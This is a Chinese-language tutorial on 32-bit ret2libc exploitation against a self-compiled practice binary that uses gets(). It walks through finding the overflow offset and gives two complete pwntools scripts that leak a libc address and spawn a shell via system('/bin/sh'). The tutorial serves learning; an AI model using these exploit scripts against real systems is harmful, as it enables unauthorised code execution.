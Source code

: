 # ROP-Ret2libc32

+++

​		上一次说到了Ret2Syscall技术，能处理NX保护以及解决没有system函数的问题，但同样的Ret2Syscall技术不是万能的，他需要符号条件的gadgets，很多情况下，程序中没有我们所需要的全部的gadgets；因此，我们需要采取新的办法，即Ret2Libc；libc是Linux下程序运行的动态链接库，类似于Windows下的DLL文件，所以一般都会具有libc文件，可能只是版本不同，而该文件一定有执行权限；

+++

### 源代码

```c
#include <stdio.h>
char buf2[10] = "ret2libc is good";
void vul(){
    char buf[10];
    gets(buf);
}

void main(){
    write(1,"hello",5);
    vul();
}
//gcc -no-pie -fno-stack-protector -m32 -o ret2libc1_32 ret2libc1_32.c
```





###  了解程序

#### Checksec 检查

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-12_16-44-51.png)

​		可以看到，该程序开启了NX保护；

#### Objdump查看函数

​		同样的可以从下图看到，程序中不具有 system函数

```
objdump -d ret2libc1_32 | grep system  
# objdump -d -j .plt ./ret2libc1_32 |grep system   #指定查找范围为 plt节
```

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-12_16-46-37.png)

#### ROPgadget查找字符串

​		然后 我们进一步探测gadgets,可以看到程序中，没有我们所需要的 `"/bin/sh"`字符串

```
ROPgadget --binary ./ret2libc1_32  --string "/bin/sh"
```

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-12_16-50-36.png)



​		由此，基本可以确认前面的几种ROP没办法使用，我们需要使用Ret2libc

#### ldd查看程序依赖

```
ldd ret2libc1_32 
```



![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-13_11-12-48.png)

​		由上图可知，该程序依赖的libc库的存放位置，和开始地址

### 查找溢出点

​		和以往的办法一样使用cyclic 先生成特殊字符串，然后输进行定位

```
cyclic 200
cyclic -l aaga #EIP所指向的字符串
```

​		得到偏移量为 22



### 查看程序

​		反汇编主函数，可得到下图

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-13_15-32-53.png)

​		由此，可以发现，该程序 主要用到了 系统函数 write 和 vul 函数，进一步查看Vul函数，如下图，主要调用了gets函数

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-13_15-34-45.png)

### Paylaod

```python
from pwn import *
context(arch = "i386",os = "linux",log_level = "debug")
p = process("./ret2libc1_32")
e = ELF("./ret2libc1_32") #加载文件
offset = 22  #由cyclic求得，参见上面

write_plt_addr = e.plt["write"]  #加载plt表地址，这个是一个固定值，通过反汇编，就可以查看，指向plt表
gets_got_addr = e.got["gets"]   #加载gets got表地址，由于延时绑定，只有在运行一次后，存储的才是真正的got表对应地址，plt表中地址
vul_addr = e.symbols["vul"]  #通过symbol函数取得vul函数开始地址

payload1 = offset*b'A' + p32(write_plt_addr) + p32(vul_addr) + p32(1) + p32(gets_got_addr) + p32(4)
#payload1处于ret处，运行时，此时main函数以及运行结束，程序中的write和gets函数都被运行过，所以以及绑定了真正的got表对应地址
#我们编写payload跳向write函数，然后把gets函数的got表地址作为write函数的参数，进行输出，从而接收，得到真正的gets函数got表地址
#然后跳转道vul函数，准备输入payload2，进行system函数的操作
p.sendlineafter("hello",payload1)  #在输出字符串“hello”后发送payload，从而获取更好的交互性

gets_addr = u32(p.recv(4))  #得到的地址，需要解包，方便查看和操作
libc = ELF("/lib/i386-linux-gnu/libc.so.6")  #加载 libc库
libc_base = gets_addr - libc.symbols["gets"]  #运行地址 - 偏移地址 得到libc的基础地址
system_addr = libc_base + libc.symbols["system"] #和上面反过来计算得到system函数地址
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))  #查找 system参数 "/bin./sh"字符串的地址，注意要以二进制形式传入

payload2 = offset*b'A' + p32(system_addr) + p32(0x00000000) + p32(bin_sh_addr)
#运行至vul函数中，gets函数，进行第二次输入，根据得到的地址 跳转道libc中的system函数
p.sendline(payload2)
p.interactive()

```



#### Payload1

​		对比上文，payload整体结构相似 处理上有些许区别

```python
from pwn import *
context(arch = "i386",os = "linux")
p = process("./ret2libc1_32")
e = ELF("./ret2libc1_32")
offset = 22

write_plt_addr = e.plt["write"]  
write_got_addr = e.got["write"]  #上文得到的是gets的got表地址，实际上不用gets，writes也可以满足需求，gets用于输入实现栈溢出
vul_addr = 0x08048456

payload1 = offset*b'A' + p32(write_plt_addr) + p32(0x0804847e) + p32(1) + p32(write_got_addr) + p32(4)
#0x0804847e 为main函数开始的地址，原本通过执行vul实现，再次执行main函数价值一样
p.sendlineafter("hello",payload1)

write_addr = u32(p.recv(4))
libc = ELF("/lib/i386-linux-gnu/libc.so.6")
libc_base = write_addr - libc.symbols["write"]    #对应的libc基地址计算也需要修改
system_addr = libc_base + libc.symbols["system"]  
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

payload2 = offset*b'A' + p32(system_addr) + p32(0x00000000) + p32(bin_sh_addr)

p.sendlineafter("hello",payload2)
p.interactive()        
```

